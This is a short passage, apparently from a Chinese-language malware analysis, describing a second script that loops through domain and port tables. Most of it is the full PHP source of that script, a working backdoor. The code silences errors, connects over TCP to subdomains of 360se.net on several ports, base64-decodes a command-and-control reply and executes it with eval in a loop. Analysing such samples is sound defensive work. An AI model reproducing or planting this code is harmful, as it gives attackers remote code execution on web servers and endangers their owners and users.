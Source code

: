 ```
}

```

脚本二功能：

内置有域名表和端口表，批量遍历然后发送数据。注释如下：

```
<?php
@ini_set("display_errors","0");
error_reporting(0);
function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
    $result = "";
    $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10);  // 接收数据，每次过来一条数据就要连接一次
      if( !$handle ){
        $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);  //错误的时候就重连一次测试。
        if( !$handle ){
            return "err";
        }
    }
    fwrite($handle, $sendMsg."\n");         // 模拟发送数据
    while(!feof($handle)){
        stream_set_timeout($handle, 2);
        $result .= fread($handle, 1024);   // 读取文件
        $info = stream_get_meta_data($handle);     // 超时则退出
        if ($info['timed_out']) {
            break;
        }
    }
    fclose($handle);
    return $result;
}

$ds = array("www","bbs","cms","down","up","file","ftp");   // 域名表
$ps = array("20123","40125","8080","80","53");             // 端口表
$n = false;
do {
    $n = false;
    foreach ($ds as $d){                                   //遍历域名表
        $b = false;
        foreach ($ps as $p){                               // 遍历端口表
            $result = tcpGet($i,$d.".360se.net",$p);
            if ($result != "err"){
                $b =true;
                break;
            }
        }
        if ($b)break;
    }
    $info = explode("<^>",$result);
    if (count($info)==4){
        if (strpos($info[3],"/*Onemore*/") !== false){
            $info[3] = str_replace("/*Onemore*/","",$info[3]);
            $n=true;
        }
        @eval(base64_decode($info[3]));
    }
}while($n);

?>

```
